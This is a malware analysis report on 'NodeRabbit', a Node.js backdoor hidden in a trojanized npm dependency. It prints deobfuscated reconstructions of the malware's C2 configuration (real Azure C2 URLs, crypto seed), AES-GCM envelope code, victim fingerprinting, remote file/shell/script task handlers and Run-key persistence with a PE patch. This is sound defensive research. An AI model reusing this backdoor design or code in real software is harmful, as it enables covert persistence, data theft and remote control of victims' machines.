Analysis sections
- Executive Summary
- Scope and Analysis Methodology
- Sample Identification and Provenance
- Static Analysis, Obfuscation and Deobfuscated Code Walkthrough
- Dynamic Execution Chain
- Persistence and Single-Instance Behavior
- Host Fingerprinting and Victim Identification
- C2 Protocol and Encryption
- Remote Task Capabilities
- Indicators of Compromise
- MITRE ATT&CK Mapping
- Detection, Hunting and Response Recommendations
- Risk Assessment
- Evidence Matrix and Limitations
- Conclusion
- Appendix A. VirusTotal Reputation Evidence
1. Executive Summary
NodeRabbit is a persistent Node.js backdoor embedded in a trojanized application dependency. In the analyzed project, server.js imports a malicious package named colorized_terminal. Importing that package immediately launches a second JavaScript payload from node_modules\.cache\.320697f1\index.js as a detached, hidden Node.js child process.
The malware establishes persistence by copying its JavaScript payload and a modified Node.js runtime into %APPDATA%\Microsoft\EdgeUpdate, registering the pair under the per-user Windows Run key, and altering the copied Node executable so it runs as a GUI subsystem binary. Reboot testing independently confirmed that nodew.exe relaunched msedge_update.js and restored the fixed localhost listener on 127.0.0.1:48739.
Instrumented runtime analysis showed NodeRabbit collecting the hostname, username, process platform, process architecture, MAC address and local IPv4 address. The hostname, username, platform, architecture and MAC address are concatenated and SHA-256 hashed; the first 32 hexadecimal characters become the agent identifier. The resulting victim profile is encrypted using AES-256-GCM before C2 request construction.
The payload dynamically constructed HTTPS POST requests to three Azure App Service endpoints:
- plugplay.azurewebsites[.]net
- rgbteller.azurewebsites[.]net
- wslwebui.azurewebsites[.]net
The /api/rabbit/checkin and /api/rabbit/task paths were directly observed during the instrumented run. The /api/rabbit/result path and remote task handlers were recovered statically but were not dynamically reached because the lab intentionally prevented a live C2 session.
Key Findings
| Finding | Assessment | Evidence |
|---|---|---|
| Trojanized dependency launches hidden payload | Confirmed | Static + Dynamic - Raw |
| Fixed localhost single-instance listener on 127.0.0.1:48739 | Confirmed | Static + Dynamic - Raw + Instrumented |
| Windows Run-key persistence using MicrosoftEdgeUpdate | Confirmed | Dynamic - Raw + Instrumented |
| Payload copied as msedge_update.js | Confirmed | Dynamic - Raw; SHA-256 matches original payload |
| Copied Node runtime modified as nodew.exe | Confirmed | Dynamic - Raw; differing hash, GUI subsystem patch, signature mismatch |
| Reboot/login persistence | Confirmed | Dynamic - Raw |
| Victim fingerprint and 32-character agent ID | Confirmed | Dynamic - Instrumented |
| AES-256-GCM C2 encryption | Confirmed | Dynamic - Instrumented + Static |
| Three Azure-hosted C2 endpoints | Confirmed request construction | Dynamic - Instrumented |
| /checkin and /task API use | Confirmed request construction | Dynamic - Instrumented |
| /result and task execution | Static capability only | Static / Deobfuscated |
2. Scope and Analysis Methodology
The objective was to determine how the supplied Node.js project executes the hidden payload, what persistence it establishes, what host information it collects, how its C2 protocol is constructed, what capabilities are exposed to an operator, and which indicators can be used for detection and hunting.
2.1 Laboratory Controls
- Windows 11 FLARE virtual machine under VMware Fusion.
- VMware networking configured as Private to my Mac / host-only during malware execution.
- Windows Defender Firewall enabled for Domain, Private and Public profiles.
- Outbound block rules created for C:\Program Files\nodejs\node.exe and %APPDATA%\Microsoft\EdgeUpdate\nodew.exe during the instrumented C2 run.
- No intentional connection to or interaction with the live C2 infrastructure was performed.
- Procmon, PowerShell, netstat/Get-NetTCPConnection, pktmon/DNS event logging, PE inspection and Node.js preload instrumentation were used for evidence collection.
2.2 Analysis Approach
- Establish a clean baseline for persistence paths, Run-key value, Node processes and port 48739.
- Review the application and identify the malicious dependency loader and hidden payload.
- Execute server.js normally and capture process, filesystem, registry and listener behavior.
- Validate persistence across reboot/login.
- Run the payload separately with a Node.js preload hook to observe host-information APIs, SHA-256 inputs, AES parameters, plaintext before encryption and constructed HTTPS requests.
- Deobfuscate the main payload into an inert reconstruction and map command handlers and protocol behavior.
- Correlate findings with supplied third-party reputation screenshots while keeping those results separate from primary behavioral evidence.
3. Sample Identification and Provenance
The original archive was Front-Challenges.zip (password supplied as infected). It contained an extensionless inner ZIP, which extracted a frontend-taskflow Node.js project with bundled node_modules. The malicious execution path is embedded in that project rather than delivered as a standalone executable.
| Artifact | Size | SHA-256 |
|---|---|---|
| Front-Challenges.zip | 14,662,164 bytes | 3b0c4922ee0e108509a8033b4572f141248c48451d2ca2f653d3f21711bb90a0 |
| Inner ZIP | 15,882,318 bytes | 307ce2448211a5f5d122643f2a739aff33ede72c1858518c8de098f3148bbd00 |
| server.js | 16,064 bytes | 0d0b64952c5f738969cb00ba0d2ea46b8e30f677f38cdccf135b7b3e2940aa6d |
| node_modules\colorized_terminal\index.js | 707 bytes | 157e3fb5f5ee95514f24eddc57bf84d7c7dc8391ddfda6382db459298d700061 |
| node_modules\.cache\.320697f1\index.js | 164,054 bytes | 33e06896cf04c490f6c7e92e286d13c80ea16837a813cd952aa614183f36ffd8 |
| Dropped msedge_update.js | 164,054 bytes | 33e06896cf04c490f6c7e92e286d13c80ea16837a813cd952aa614183f36ffd8 |
| Original node.exe | 82,818,704 bytes | b3b117a08ee61efee09e6fd523ab33c0c018da1b570bde08e4fd914dc1170ed6 |
| Dropped nodew.exe | 82,818,704 bytes | 575fa9b11c4f512ebf55963b9aa0b408255481dd4385e80a630679d3bd2e62cd |
The dropped msedge_update.js is byte-identical to the hidden .320697f1 payload by SHA-256. The copied Node runtime retains the same file size as the legitimate runtime but has a different hash because the PE subsystem field is modified after copying.
4. Static Analysis, Obfuscation and Deobfuscated Code Walkthrough
4.1 Loader and Execution Chain
server.js imports colorized_terminal. The package appears to provide harmless terminal-color helpers, but its module initialization immediately spawns the hidden .320697f1\index.js payload using process.execPath. The child is configured as detached, with stdio ignored and windowsHide enabled, and is unreferenced so it can survive independently of the initiating application.
server.js
-> require("colorized_terminal")
-> colorized_terminal/index.js
-> spawn(process.execPath, [node_modules/.cache/.320697f1/index.js])
-> detached hidden NodeRabbit payload4.2 Obfuscation
The main payload is heavily obfuscated. Deobfuscation identified a style strongly consistent with the JavaScript Obfuscator / obfuscator.io family; the exact build or version cannot be established from syntax alone.
| Technique | Observed Purpose |
|---|---|
| String-array encoding and rotation | Changes final index-to-string mapping and prevents straightforward literal recovery. |
| RC4-protected string literals | Central decoder performs custom Base64 decoding, RC4 decryption and result caching. |
| Decoder wrapper functions | Hundreds of offset wrappers obscure direct calls to the central string decoder. |
| Hexadecimal / escaped strings | Hides readable API names, protocol strings and paths. |
| Identifier mangling | Replaces semantic variable/function names with random _0x... identifiers. |
| Helper-object indirection | Wraps equality, arithmetic and function calls in meaningless object properties. |
| Opaque predicates / dead code | Adds unreachable and unrelated branches to complicate control-flow reconstruction. |
| Self-defending / anti-analysis scaffolding | Constructor-string checks, one-shot wrappers and console/debug-related patterns complicate inspection. |
4.3 Deobfuscated Core Functions
| Semantic Function | Purpose |
|---|---|
| buildAgentId | SHA-256 of host/user/platform/architecture/MAC; first 32 hex characters retained. |
| encryptEnvelope | AES-256-GCM encryption and construction of {d,_r,_t}. |
| httpsPost | POST helper for /api/rabbit/* endpoints. |
| installPersistence | Cross-platform persistence installer; Windows behavior confirmed dynamically. |
| checkIn | Builds and sends victim profile. |
| pollTasks | Requests tasks, rotates C2 on failures and applies backoff/jitter. |
| dispatchTask | Routes task types to file, process, network and script handlers. |
| sendResult | Encrypts and POSTs task results to /api/rabbit/result. |
4.4 Deobfuscated Code Analysis
4.4.1 Embedded C2, API and Crypto Configuration
The deobfuscated configuration exposes the three hard-coded Azure App Service C2 servers, the /api/rabbit endpoint family, the fixed localhost single-instance port, AES-256-GCM parameters, the key seed, browser-like User-Agent strings, and the backoff ceiling. These values explain both the instrumented HTTPS requests and the raw 127.0.0.1:48739 listener.
17 const CONFIG = Object.freeze({
18 c2Servers: [
19 'https://plugplay.azurewebsites.net/',
20 'https://Rgbteller.azurewebsites.net',
21 'https://Wslwebui.azurewebsites.net',
22 ],
23 apiBase: '/api/rabbit',
24 endpoints: Object.freeze({
25 checkin: '/checkin',
26 task: '/task',
27 result: '/result',
28 }),
29 singleInstance: Object.freeze({
30 host: '127.0.0.1',
31 port: 48739,
32 }),
33 crypto: Object.freeze({
34 algorithm: 'aes-256-gcm',
35 ivLength: 12,
36 authTagLength: 16,
37 seed: '7934ab686d6a3ab58c124abf6b671045c02163a2c4321ddfd51777894461b4c5',
38 }),
39 initialSleepSeconds: 15,
40 maxBackoffSeconds: 3600,
41 userAgents: [
42 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36',
43 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0',
44 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0',
45 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36',
46 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36',
47 ],
48 });| Recovered Item | Meaning / Analyst Assessment |
|---|---|
| Three C2 servers | Redundant HTTPS endpoints. The main loop rotates among them when requests fail. |
| /api/rabbit/checkin | Sends the encrypted host profile / victim identity. |
| /api/rabbit/task | Polls for operator-issued work after check-in. |
| /api/rabbit/result | Returns an encrypted task result after a handler completes. |
| 127.0.0.1:48739 | Local single-instance guard; not a remote C2 listener. |
| AES-256-GCM, IV 12, tag 16 | Authenticated encryption for request/response envelopes. |
| maxBackoffSeconds = 3600 | Failures can slow polling to an hour while preserving retry behavior. |
4.4.2 Victim Fingerprint and Check-in Construction
NodeRabbit creates a stable agent identity by combining the hostname, logged-in username, platform, architecture and first non-zero external MAC address. SHA-256 is applied to the pipe-delimited string and truncated to 32 hexadecimal characters. The check-in then adds the malware PID and external IPv4 addresses. This behavior was directly corroborated by the instrumented run.
66 function buildAgentId() {
67 const fingerprint = [
68 os.hostname(),
69 os.userInfo().username,
70 os.platform(),
71 os.arch(),
72 ];
73
74 const mac = firstExternalMac();
75 if (mac) fingerprint.push(mac);
76
77 return crypto
78 .createHash('sha256')
79 .update(fingerprint.join('|'))
80 .digest('hex')
81 .slice(0, 32);
82 }
83
84 function collectExternalIPv4s(networkInterfaces = os.networkInterfaces()) {
85 const ips = [];
86 for (const entries of Object.values(networkInterfaces)) {
87 for (const entry of entries || []) {
88 if (!entry.internal && entry.family === 'IPv4') ips.push(entry.address);
89 }
90 }
91 return ips;
92 }
93
94 function buildCheckin(agentId = buildAgentId()) {
95 return {
96 agentId,
97 hostname: os.hostname(),
98 username: os.userInfo().username,
99 os: process.platform,
100 pid: process.pid,
101 ips: collectExternalIPv4s(),
102 };
103 }4.4.3 C2 Encryption and Message Envelope
The encryption routine serializes the plaintext object as JSON, generates a fresh 12-byte IV, encrypts with AES-256-GCM, obtains the 16-byte authentication tag, and concatenates IV || ciphertext || tag into the Base64 d field. Two additional metadata fields are added: _r is four random bytes rendered as eight hexadecimal characters and _t is the current epoch time in milliseconds. Responses are decoded using the inverse operation and the same derived AES key.
105 /* Exact C2 envelope construction, retained because it is locally testable. */
106 function encryptEnvelope(plaintextObject) {
107 const plaintext = JSON.stringify(plaintextObject);
108 const iv = crypto.randomBytes(CONFIG.crypto.ivLength);
109 const cipher = crypto.createCipheriv(CONFIG.crypto.algorithm, AES_KEY, iv);
110 const ciphertext = Buffer.concat([
111 cipher.update(plaintext, 'utf8'),
112 cipher.final(),
113 ]);
114 const tag = cipher.getAuthTag();
115 const d = Buffer.concat([iv, ciphertext, tag]).toString('base64');
116
117 return JSON.stringify({
118 d,
119 _r: crypto.randomBytes(4).toString('hex'),
120 _t: Date.now(),
121 });
122 }
123
124 function decryptEnvelope(envelope) {
125 const raw = Buffer.from(envelope.d, 'base64');
126 const iv = raw.subarray(0, CONFIG.crypto.ivLength);
127 const tag = raw.subarray(raw.length - CONFIG.crypto.authTagLength);
128 const ciphertext = raw.subarray(
129 CONFIG.crypto.ivLength,
130 raw.length - CONFIG.crypto.authTagLength,
131 );
132
133 const decipher = crypto.createDecipheriv(CONFIG.crypto.algorithm, AES_KEY, iv);
134 decipher.setAuthTag(tag);
135 const plaintext = Buffer.concat([
136 decipher.update(ciphertext),
137 decipher.final(),
138 ]);
139 return JSON.parse(plaintext.toString('utf8'));
140 }During instrumentation, the first check-in plaintext was captured before encryption as shown below. No browser passwords or user documents were automatically included in this initial profile.
{"agentId":"6b05ea473d024313477dcc60ee98360e","hostname":"akmal","username":"akmal","os":"win32","pid":2836,"ips":["192.168.38.129"]}4.4.4 HTTPS Request Construction and TLS Behavior
The safe reconstruction represents the original operational HTTPS helper as a request description. Static mapping identifies the original _0x245931 function as the HTTPS POST helper. The request targets /api/rabbit/*, uses JSON, rotates browser-like User-Agent values, and disables standard TLS certificate validation with rejectUnauthorized: false. Instrumentation independently observed these exact properties.
146 function buildRequestDescription(server, endpoint, body) {
147 const encryptedBody = encryptEnvelope(body);
148 const url = new URL(CONFIG.apiBase + endpoint, server).toString();
149 return {
150 action: 'INERT_NETWORK_POST',
151 url,
152 method: 'POST',
153 rejectUnauthorized: false,
154 headers: {
155 'Content-Type': 'application/json',
156 'Content-Length': Buffer.byteLength(encryptedBody),
157 'User-Agent': CONFIG.userAgents[0],
158 Accept: 'application/json, text/plain, */*',
159 'Accept-Language': 'en-US,en;q=0.9',
160 },
161 body: encryptedBody,
162 };
163 }4.4.5 What Happens After a C2 Responds
Recovered control flow shows a persistent tasking cycle. The task-response envelope is decrypted, the response may adjust the polling interval, and any tasks are routed through the dispatcher. After each handler returns, NodeRabbit builds a result containing the agent ID, task ID, success state and output; the original send-result routine posts this to /api/rabbit/result using the same encrypted envelope format.
271 async function dispatchTaskInert(task) {
272 const { id, command, args = {} } = task || {};
273 let output;
274
275 switch (command) {
276 case 'sys:info': output = sysInfo(); break;
277 case 'proc:list': output = listProcessesPlan(); break;
278 case 'fs:list': output = listDirectoryPlan(args); break;
279 case 'fs:read': output = readFilePlan(args); break;
280 case 'fs:write': output = writeFilePlan(args); break;
281 case 'fs:delete': output = deletePathPlan(args); break;
282 case 'fs:mkdir': output = mkdirPlan(args); break;
283 case 'proc:start': output = startProcessPlan(args); break;
284 case 'net:config': output = networkConfig(); break;
285 case 'agent:sleep': output = setSleepPlan(args); break;
286 case 'script:exec': output = executeScriptPlan(args); break;
287 default: output = `Unknown command: ${command}`;
288 }
289
290 return {
291 endpoint: CONFIG.apiBase + CONFIG.endpoints.result,
292 payload: {
293 agentId: buildAgentId(),
294 taskId: id,
295 success: !String(output).startsWith('Unknown command:'),
296 output,
297 },
298 };
299 }| Stage | Behavior when C2 is available |
|---|---|
| 1. Check-in | POST encrypted host profile to /api/rabbit/checkin. |
| 2. Poll | POST encrypted {agentId} to /api/rabbit/task. |
| 3. Receive | Decrypt the C2 response; response can contain a tasks array and polling information. |
| 4. Dispatch | Select a handler based on task.command and operator-controlled args. |
| 5. Result | Create {agentId, taskId, success, output} and POST it to /api/rabbit/result. |
| 6. Continue | Sleep with jitter and poll again. On failures, rotate C2 and exponentially back off. |
4.4.6 High-Risk Task Handlers
The dispatcher exposes a broad remote-administration command set. File handlers are especially important because fs:read can return arbitrary file chunks in Base64, fs:write can create or modify files, and fs:delete can recursively remove directories. proc:start and script:exec provide operator-controlled execution paths.
275 switch (command) {
276 case 'sys:info': output = sysInfo(); break;
277 case 'proc:list': output = listProcessesPlan(); break;
278 case 'fs:list': output = listDirectoryPlan(args); break;
279 case 'fs:read': output = readFilePlan(args); break;
280 case 'fs:write': output = writeFilePlan(args); break;
281 case 'fs:delete': output = deletePathPlan(args); break;
282 case 'fs:mkdir': output = mkdirPlan(args); break;
283 case 'proc:start': output = startProcessPlan(args); break;
284 case 'net:config': output = networkConfig(); break;
285 case 'agent:sleep': output = setSleepPlan(args); break;
286 case 'script:exec': output = executeScriptPlan(args); break;
287 default: output = `Unknown command: ${command}`;
288 }
289
290 return {
291 endpoint: CONFIG.apiBase + CONFIG.endpoints.result,
292 payload: {
293 agentId: buildAgentId(),
294 taskId: id,
295 success: !String(output).startsWith('Unknown command:'),
296 output,
297 },
298 };| Command | Recovered Behavior | Why It Matters |
|---|---|---|
| sys:info | Hostname, domain/workgroup, username and malware PID. | Host reconnaissance. |
| proc:list | tasklist.exe /FO CSV /NH on Windows. | Process discovery for targeting/security-tool awareness. |
| fs:list | Enumerates resolved directory entries and metadata. | File-system discovery. |
| fs:read | Chunked read from operator-selected path; Base64 output; default chunk 256 KiB. | Can collect arbitrary accessible file content for return through C2. |
| fs:write | Base64 input written at an offset; parent directories may be created. | Payload/tool staging and file modification. |
| fs:delete | Unlinks a file or recursively removes a directory with force behavior. | Destructive integrity/availability impact. |
| fs:mkdir | Recursive directory creation. | Prepares staging paths. |
| proc:start | Runs an operator-selected command through a shell with 30-second timeout. | Arbitrary command/process execution. |
| net:config | Collects host, OS, DNS, addresses, MAC and subnet details. | Network/environment discovery. |
| agent:sleep | Changes polling interval when value is >= 1. | Lets operator tune beacon frequency. |
| script:exec | Decodes Base64 JavaScript, writes a random temp file, executes it with Node, captures output, then deletes the file. | Extensible arbitrary JavaScript execution. |
4.4.7 Arbitrary JavaScript Execution Path
script:exec is the most flexible recovered capability. The operator supplies Base64-encoded JavaScript. The original malware decodes it, writes it to a random temporary file, launches that file with the current Node.js runtime, captures output, enforces a 120-second timeout and removes the temporary file afterward. This allows functionality beyond the built-in command set without replacing the main backdoor.
256 function executeScriptPlan(args = {}) {
257 if (!args.code) throw new Error('No script code provided');
258 const decoded = Buffer.from(args.code, 'base64').toString('utf8');
259 return {
260 action: 'INERT_SCRIPT_EXEC',
261 decodedScript: decoded,
262 originalBehavior: {
263 tempFile: '<os.tmpdir>/<16 hex chars>.tmp',
264 interpreter: process.execPath,
265 timeoutMs: 120000,
266 deletesTempFileAfterExecution: true,
267 },
268 };
269 }4.4.8 Persistence Logic Recovered from Code
On Windows the payload uses Microsoft Edge-themed paths, copies itself to msedge_update.js, copies the Node.js runtime to nodew.exe, patches the PE subsystem to Windows GUI to suppress a console window, creates the MicrosoftEdgeUpdate Run value, and launches a detached hidden child. These code-derived behaviors were independently confirmed by raw execution, Procmon, hash comparison, PE inspection and reboot testing.
301 function persistencePlan() {
302 const home = os.homedir();
303 const platform = os.platform();
304
305 if (platform === 'win32') {
306 const base = process.env.APPDATA || path.join(home, 'AppData', 'Roaming');
307 const dir = path.join(base, 'Microsoft', 'EdgeUpdate');
308 const script = path.join(dir, 'msedge_update.js');
309 const nodew = path.join(dir, 'nodew.exe');
310 return {
311 action: 'INERT_PERSISTENCE_PLAN',
312 platform,
313 script,
314 nodew,
315 copiesCurrentPayloadTo: script,
316 copiesNodeRuntimeTo: nodew,
317 pePatch: 'writeUInt16LE(2, e_lfanew + 92) — PE Subsystem Windows GUI',
318 runKey: 'HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\MicrosoftEdgeUpdate',
319 runValue: `"${nodew}" "${script}"`,
320 childSpawn: { detached: true, stdio: 'ignore', windowsHide: true },
321 };The same reconstruction also contains Linux @reboot crontab and macOS LaunchAgent persistence branches. Those cross-platform branches are static findings only and were not executed in the Windows FLARE laboratory.
4.4.9 Main Loop, C2 Failover and Backoff
The main loop removes NODE_OPTIONS, acquires the single-instance guard, installs persistence, waits for a short randomized startup delay, performs check-in, and then enters continuous task polling. Failure handling rotates the active C2, performs another check-in and doubles the polling/backoff interval up to 3,600 seconds. Sleep intervals are jittered to reduce a perfectly periodic network pattern.
361 function mainBehaviorPlan() {
362 return {
363 step1: 'Delete NODE_OPTIONS from environment.',
364 step2: singleInstancePlan(),
365 step3: persistencePlan(),
366 step4: 'Sleep random 0–3 seconds.',
367 step5: 'Attempt check-in across three C2 servers, rotating server index and using jittered delay.',
368 step6: {
369 loop: 'POST /api/rabbit/task with {agentId}; dispatch returned tasks; POST /api/rabbit/result.',
370 startingIntervalSeconds: CONFIG.initialSleepSeconds,
371 failureBehavior: 'rotate C2, perform check-in, double interval up to 3600 seconds',
372 successBehavior: 'reset failure counter/backoff',
373 jitter: '0.5x–1.5x interval',
374 },
375 };Startup -> Single-instance guard -> Persistence -> C2 check-in
|
v
POST /api/rabbit/task
|
decrypt response
|
dispatch command
|
encrypt task result
|
POST /api/rabbit/result | jittered sleep -> repeatFailure path: rotate C2 -> re-check-in -> exponential backoff (max 3600s) -> retry5. Dynamic Execution Chain
5.1 Clean Baseline
Before execution, %APPDATA%\Microsoft\EdgeUpdate did not exist, the MicrosoftEdgeUpdate Run value was absent, and no listener was present on TCP port 48739. This provided a clean before/after basis for persistence and listener validation.

5.2 Initial Process Creation
Normal execution of node .\server.js started the expected TaskFlow application and then created a separate Node.js child for the hidden .320697f1 payload. Procmon independently captured the corresponding Process Create event and command line.



5.3 Network-facing Runtime Context
During execution, Windows Security displayed a firewall prompt for the Node.js JavaScript Runtime. This is contextual evidence that Node.js opened network-facing functionality; the prompt alone is not treated as proof of malicious C2 because the legitimate TaskFlow application also listens locally.

6. Persistence and Single-Instance Behavior
6.1 Local Single-Instance Guard
The payload binds TCP 127.0.0.1:48739. The listener is used as a single-instance guard: a second payload instance exits when the bind fails. In the raw run, the listener was owned by the hidden payload process; after reboot it was restored by nodew.exe.

6.2 Persistence Files
NodeRabbit creates %APPDATA%\Microsoft\EdgeUpdate and writes two files: msedge_update.js (a copy of the main payload) and nodew.exe (a copied and modified Node.js runtime). Hash comparison confirmed msedge_update.js is identical to the original hidden payload.

6.3 Registry Run Key
The malware creates HKCU\Software\Microsoft\Windows\CurrentVersion\Run\MicrosoftEdgeUpdate with a command that launches nodew.exe and msedge_update.js. The value is created in the current user context and therefore triggers at user logon without requiring administrative persistence.
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\MicrosoftEdgeUpdate
"%APPDATA%\Microsoft\EdgeUpdate\nodew.exe" "%APPDATA%\Microsoft\EdgeUpdate\msedge_update.js"
